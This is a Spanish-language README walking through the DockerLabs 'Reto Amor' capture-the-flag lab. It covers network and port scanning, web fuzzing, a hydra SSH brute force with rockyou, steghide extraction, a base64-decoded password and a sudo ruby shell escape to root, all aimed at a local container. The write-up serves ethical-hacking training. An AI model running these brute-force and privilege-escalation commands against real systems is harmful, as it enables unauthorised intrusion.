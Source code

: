 **Mayor DIEGO A. ESMERAL M.**


# 🧪 Reto Amor - DockerLabs

Este repositorio documenta el desarrollo completo del laboratorio **Reto Amor** de la plataforma [DockerLabs.es](https://dockerlabs.es/), nivel **Fácil**. El objetivo fue desplegar una máquina vulnerable en Docker, realizar tareas de reconocimiento, explotación y escalamiento de privilegios mediante herramientas de hacking ético.

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 📦 Requisitos Previos

- Kali Linux (actualizado)
- Docker instalado: `sudo apt install docker.io`
- Carpeta `amor` transferida al entorno Kali mediante `scp`.

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🔧 Herramientas Empleadas

| HERRAMIENTA | DEFINICION | FUNCIONALIDAD | CASOS DE USO |
|------------|------------|---------------|--------------|
| **DOCKER** | Plataforma de contenedores para ejecutar aplicaciones en entornos aislados. | Simula entornos virtuales ligeros. | Laboratorios, CI/CD, microservicios. |
| **SCP** | Copia segura de archivos entre máquinas mediante SSH. | Transferencia recursiva de carpetas. | Envío de archivos/scripts entre hosts. |
| **NETDISCOVER** | Herramienta ARP para descubrir IPs activas. | Muestra IP, MAC y fabricante. | Reconocimiento de red local. |
| **NMAP** | Escáner de puertos y servicios. | Escaneo completo de red y servicios. | Pentesting, auditoría, fingerprinting. |
| **GOBUSTER** | Fuerza bruta de directorios web. | Descubre rutas y archivos ocultos. | Enumeración web ofensiva. |
| **HYDRA** | Herramienta de cracking para servicios remotos que permite ataques de fuerza bruta con múltiples protocolos. | Automatiza intentos de autenticación contra servicios como SSH, FTP, HTTP, RDP, etc. | Test de contraseñas débiles, auditoría de accesos, ejercicios de Red Team. |
| **STEGHIDE** | Esteganografía en imágenes/audio. | Extrae/oculta archivos en JPG/WAV. | CTF, forense, comunicaciones ocultas. |
| **BASE64** | Codificación binaria a texto. | Decodifica datos encubiertos. | Mensajes ocultos, manipulación de datos. |

-------------------------------------------------------------------------------------------------------------------------------------------------------------------


## 🛠️ Desglose de Comandos Utilizados


# 1. Transferir carpeta

```bash
scp -r amor kali@192.168.1.12:/home/kali/Documents/
```

# 2. Instalar Docker (si aplica)

```bash
sudo apt install docker.io
```

# 3. Desplegar máquina

```bash
cd Documents/amor
chmod +x auto_deploy.sh
./auto_deploy.sh amor.tar
```
![Despliegue](Despliegue.png)

# 4. Obtener interfaz de red

```bash
ip add
```

# 5. Escaneo de red en docker0

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

# 6. Escanear puertos abiertos

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```
# 7. Fuzzing web

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

# 8. Fuerza bruta SSH

![Fuerza bruta](Fuerza%20bruta%20SSH.png)

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

# 9. Acceso por SSH

```bash
ssh carlota@172.17.0.2
```
# 10. Buscar imagen

```bash
cd /carlota/Desktop/fotos/vacaciones
```

# 11. Descargar imagen a Kali

```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```
![Amor](AMOR.png)

# 12. Extraer contenido oculto

![Decodificacion](stghide.png)

```bash
steghide extract -sf imagen.jpg
```
# 13. Decodificar mensaje oculto

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

# 14. Escalada de privilegios

```bash
su oscar
sudo -l
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🧠 Diagrama de flujo

![Diagrama de Flujo](DiagrammeAMOR.png)

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 💬 Resultado Final

Al finalizar el laboratorio se logra:

Identificar servicios expuestos (22, 80).

Obtener acceso SSH por fuerza bruta.

Detectar archivo con datos esteganográficos.

Decodificar contraseña y escalar privilegios a root.


